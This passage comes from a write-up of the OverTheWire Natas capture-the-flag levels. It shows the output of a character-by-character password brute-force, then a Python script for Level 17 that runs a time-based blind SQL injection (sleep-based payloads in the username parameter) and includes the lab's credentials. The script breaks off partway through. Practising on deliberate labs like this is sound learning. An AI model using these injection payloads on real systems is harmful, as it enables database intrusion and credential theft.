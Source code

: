```
Password: 8Ps*****************************
Password: 8Ps3****************************
Password: 8Ps3H***************************
Password: 8Ps3H0**************************
Password: 8Ps3H0G*************************
Password: 8Ps3H0GW************************
Password: 8Ps3H0GWb***********************
Password: 8Ps3H0GWbn**********************
Password: 8Ps3H0GWbn5*********************
Password: 8Ps3H0GWbn5r********************
Password: 8Ps3H0GWbn5rd*******************
Password: 8Ps3H0GWbn5rd9******************
Password: 8Ps3H0GWbn5rd9S*****************
Password: 8Ps3H0GWbn5rd9S7****************
Password: 8Ps3H0GWbn5rd9S7G***************
Password: 8Ps3H0GWbn5rd9S7Gm**************
Password: 8Ps3H0GWbn5rd9S7GmA*************
Password: 8Ps3H0GWbn5rd9S7GmAd************
Password: 8Ps3H0GWbn5rd9S7GmAdg***********
Password: 8Ps3H0GWbn5rd9S7GmAdgQ**********
Password: 8Ps3H0GWbn5rd9S7GmAdgQN*********
Password: 8Ps3H0GWbn5rd9S7GmAdgQNd********
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdk*******
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkh******
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP*****
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk****
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq***
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9**
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c*
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
Completed!
```

### Level 17

Same as last two levels, but this is a blind SQL injection attack as we get no response. Once, again I reused jhalon code as the levels are pretty much the same. But this time, we add a sleep(5) which will execute if it is true, otherwise we will do a timeout which will capture the false statement. This time-based technique is very common. 

```
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw@natas17.natas.labs.overthewire.org/'

r = requests.get(target)

for x in chars:
	try:
		r = requests.get(target+'?username=natas18" AND IF(password LIKE BINARY "%' + x + '%", sleep(5), null) %23', timeout=1)
	except requests.exceptions.Timeout:
		exist += x
		print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
	for c in exist:
```